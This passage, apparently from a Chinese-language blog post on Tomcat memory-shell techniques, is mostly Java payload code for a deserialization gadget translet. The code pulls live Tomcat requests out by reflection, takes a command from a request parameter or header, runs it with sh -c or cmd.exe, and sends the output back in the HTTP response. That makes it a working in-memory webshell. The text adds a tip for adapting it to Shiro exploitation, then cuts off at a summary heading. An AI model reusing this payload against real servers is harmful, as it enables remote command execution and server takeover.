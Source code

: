 ```java
                field.setAccessible(true);
                for (int i=0; i < processors.size(); i++) {
                    org.apache.coyote.Request tempRequest = (org.apache.coyote.Request) field.get(processors.get(i));
                    org.apache.catalina.connector.Request request = (org.apache.catalina.connector.Request) tempRequest.getNote(1);

                    String cmd = request.getParameter(pass);
                    //shiro
                    //String cmd = request.getHeader(pass);
                    String[] cmds = !System.getProperty("os.name").toLowerCase().contains("win") ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                    java.io.InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                    java.util.Scanner s = new java.util.Scanner(in).useDelimiter("\\a");
                    String out = s.hasNext() ? s.next() : "";

                    java.io.Writer writer = request.getResponse().getWriter();
                    java.lang.reflect.Field usingWriter = request.getResponse().getClass().getDeclaredField("usingWriter");
                    usingWriter.setAccessible(true);
                    usingWriter.set(request.getResponse(), Boolean.FALSE);
                    writer.write(out);
                    writer.flush();

                }
            }
        }catch (Throwable throwable) {
            throwable.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}

```

shiro利用的话改成getHeader传参就行了



## 总结

总结一下几种目前Tomcat下通用的手法：
